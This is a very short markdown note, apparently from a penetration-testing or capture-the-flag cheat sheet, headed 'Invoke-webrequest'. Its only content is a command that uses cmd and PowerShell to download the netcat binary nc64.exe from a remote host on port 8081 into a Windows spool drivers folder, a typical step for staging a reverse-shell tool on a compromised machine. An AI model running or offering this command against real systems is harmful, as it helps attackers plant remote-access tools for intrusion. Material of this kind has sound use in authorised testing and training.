 ## Invoke-webrequest
`cmd /c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.1.4:8081/nc64.exe --v`
